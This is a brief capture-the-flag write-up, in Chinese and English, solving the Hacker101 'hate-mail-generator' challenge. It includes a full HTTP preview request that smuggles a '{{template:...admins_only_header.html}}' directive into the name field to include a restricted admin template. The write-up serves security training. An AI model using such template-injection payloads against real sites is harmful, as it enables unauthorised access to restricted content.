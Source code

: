 # hate-mail-generator

Sending letters is so slow! Now the grinch sends his hate mail by email campaigns! Try and find the hidden flag!

## Guess What

例子Guess What的内容： 

{% raw %}
```
{{template:cbdj3_grinch_header.html}} Hi {{name}}..... Guess what..... <strong>YOU SUCK!</strong>{{template:cbdj3_grinch_footer.html}}
```
{% endraw %}

在create->previes尝试其他template文件：  
{% raw %}
```
{{template:test}}
```
{% endraw %}

## preview
```
POST /hate-mail-generator/new/preview/ HTTP/1.1
Host: f9a13d7dbbdf5fa6d8410d6f9f9d9e10.ctf.hacker101.com
Content-Length: 126
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="105", "Not)A;Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://f9a13d7dbbdf5fa6d8410d6f9f9d9e10.ctf.hacker101.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://f9a13d7dbbdf5fa6d8410d6f9f9d9e10.ctf.hacker101.com/hate-mail-generator/new/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

preview_markup=Hello {{name}}+....&preview_data={"name":"{{template:38dhs_admins_only_header.html}}","email":"alice@test.com"}
```

